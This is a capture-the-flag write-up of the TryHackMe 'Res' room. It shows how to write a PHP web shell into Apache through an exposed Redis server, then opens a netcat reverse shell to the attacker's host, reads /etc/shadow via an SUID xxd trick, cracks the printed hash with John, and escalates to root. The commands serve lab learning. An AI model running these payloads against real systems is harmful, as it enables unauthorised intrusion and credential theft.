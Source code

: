 # Res

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [res](https://tryhackme.com/room/res).

## Flag 1

Scanning the environment we find an apache webserver and a redis database...

``` sh
sudo nmap -sC -sV -sS 10.10.103.145 -p-
```

When connecting to redis we can set write a file to the main apache dir and create a simple php reverse shell:

``` sh
redis-cli -h 10.10.103.145
>config set dir /var/www/html
>config set dbfilename shell.php
>set test "<?php system($_GET['']);?>"
```

Before we visit our new page we should open a netcat session:

``` sh
nc -nvlp 666
```

Time to run our shell.php :)

``` sh
http://10.10.103.145/shell.php?cmd=nc 10.10.146.116 667 -e /bin/sh
```

Once we are succesfully connected we can stabilize the shell and view the first flag:

``` sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
cat /home/vianka/user.txt
```

## Flag 2

Lets have a look at the passwd

``` sh
cat /etc/passwd
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

There is SUID bit set for xxd. To access the shadow file can use [this trick](https://gtfobins.github.io/gtfobins/xxd/).

``` sh
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Time to crack the password:

``` sh
unshadow passwd.txt shadow.txt > hash.txt
john hash.txt
```

Once we have the password we can escalate our priviledges to vianka which somehow also has root access.

``` sh
su vianka
sudo su
cat /root/root.txt
```
